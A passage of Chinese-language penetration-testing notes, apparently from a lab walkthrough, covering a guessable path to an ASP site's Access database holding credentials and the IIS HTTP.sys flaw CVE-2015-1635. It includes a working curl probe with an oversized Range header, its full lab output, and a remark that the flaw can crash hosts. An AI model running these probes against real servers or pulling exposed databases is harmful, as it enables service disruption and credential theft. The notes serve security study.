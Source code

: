 `192.168.126.131:81/database/%23data.mdb`

该文件中就有敏感文件如账号密码，这是由ASP+Access这种语言架构的特性决定的

### ASP-中间件-CVE&短文件&解析&写权限

#### HTTP.SYS（CVE-2015-1635）

该漏洞无法拿到权限，但能够使得目标主机蓝屏，达到破坏效果，影响业务

##### 漏洞描述

漏洞描述：远程执行代码漏洞存在于 HTTP 协议堆栈 (HTTP.sys) 中，当 HTTP.sys 未正确分析经特殊设计的 HTTP 请求时会导致此漏洞。 成功利用此漏洞的攻击者可以在系统帐户的上下文中执行任意代码。

##### 影响版本

影响版本：Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2

##### 漏洞利用条件

漏洞利用条件：安装了IIS6.0以上的Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2版本

##### 漏洞复现

验证漏洞是否存在

执行`curl -v http://192.168.20.130 -H "Host: irrelevant" -H "Range: bytes=0-18446744073709551615"`

返回状态码为416且出现The requested range is not satisfiable.则表示该漏洞存在。

```bash
┌──(kali㉿kali)-[~]
└─$ curl -v http://192.168.20.130 -H "Host: 192.168.20.130" -H "Range: bytes=0-18446744073709551615"
*   Trying 192.168.20.130:80...
* Connected to 192.168.20.130 (192.168.20.130) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.20.130
> User-Agent: curl/7.88.1
> Accept: */*
> Range: bytes=0-18446744073709551615
> 
< HTTP/1.1 416 Requested Range Not Satisfiable
< Content-Type: text/html
< Last-Modified: Thu, 18 May 2023 14:48:28 GMT
< Accept-Ranges: bytes
< ETag: "7049b7ce9789d91:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Mon, 29 Sep 2025 14:58:53 GMT
< Content-Length: 362
< Content-Range: bytes */689
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Requested Range Not Satisfiable</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Requested Range Not Satisfiable</h2>
<hr><p>HTTP Error 416. The requested range is not satisfiable.</p>  //出现此句说明漏洞存在
</BODY></HTML>
* Connection #0 to host 192.168.20.130 left intact

```
